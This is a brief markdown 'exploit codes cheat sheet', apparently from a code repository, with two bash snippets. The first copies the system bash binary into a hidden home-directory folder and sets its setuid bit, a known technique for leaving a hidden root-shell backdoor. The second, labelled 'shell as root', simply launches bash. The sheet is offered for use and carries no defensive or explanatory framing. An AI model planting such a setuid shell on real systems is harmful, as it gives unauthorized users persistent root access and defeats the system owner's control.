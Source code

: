 # Exploit codes cheat sheet

- suid bash

```bash
#!/usr/bin/bash

mkdir /home/user/.myfolder
cp /usr/bin/bash  /home/user/.myfolder/bash

chmod +s /home/user/.myfolder/bash
```

- shell as root

```bash
#!/usr/bin/bash

/usr/bin/bash
```
